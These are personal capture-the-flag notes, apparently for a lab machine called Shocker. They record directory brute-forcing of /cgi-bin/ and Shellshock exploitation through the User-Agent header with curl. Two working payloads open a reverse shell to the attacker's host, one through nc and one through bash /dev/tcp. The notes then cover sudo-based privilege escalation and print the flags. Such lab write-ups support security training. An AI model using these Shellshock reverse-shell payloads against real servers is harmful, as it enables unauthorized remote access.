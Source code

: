 # 10.10.10.56 - shocker

## port 2222 open
## port 80 open
- shellshock --> looking for cgi-bin dir
- gobuster keeps timing out the connection - cant brute force directory
### /cgi-bin/ --> need to have the backslash at the end of the uri
- going to try to gobuster the directory for files --> use smaller file 
- Linux box so look for html, php, txt, sh
```
 gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt --delay 1000ms -x .sh,.php,.html,.txt -t 2 -o cgi-bin-dir-common.gobust
```
- The box keeps timing out, frustrating!!!
- Looked at a walkthrough for the file i'm supposed to look for
	- /cgi-bin/user.sh  

#### nc shell shock attempt
```
curl -H "User-Agent: () {:;};echo /bin/nc -e /bin/bash 10.10.14.19 1985" http://10.10.10.56/cgi-bin/user.sh

Content-Type: text/plain

Just an uptime test script

 04:46:14 up  8:13,  0 users,  load average: 0.00, 0.00, 0.00
```
# 


- Executing the example found on the OWASP website isnt fruitful
- Attempting to use pentest monkey bash reverse shell instead of using nc

```
curl -H 'User-Agent: () { :; };/bin/bash -i >& /dev/tcp/10.10.14.19/1985 0>&1' http://10.10.10.56/cgi-bin/user.sh
```

- This command gives us the low priv shell
	* single quotes and spaces matter --> attempting to get nc to work

#### Internal server error from attempting nc shell shock

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
</body></html>

## User Shelly - User.txt
```
shelly@Shocker:/home/shelly$ cat u
cat user.txt 
2ec24e11320026d1e70ff3e16695b233
```
- wget LinEnum.sh onto the box and run it

## sudo -l 
### always look for low hanging fruit first
```
User shelly may run the following commands on Shocker:                                                                                                                    
    (root) NOPASSWD: /usr/bin/perl  
```
- no need to run LinEnum.sh although its good practice to get it on the box and read through it for possible vulns
	* sudo -l takes seconds rather than minutes and can be run immediately 
	* time to gtfo 
## Root.txt
```
pwd
/root
cat root.txt
52c2715605d70c7619030560dc1ca467
```

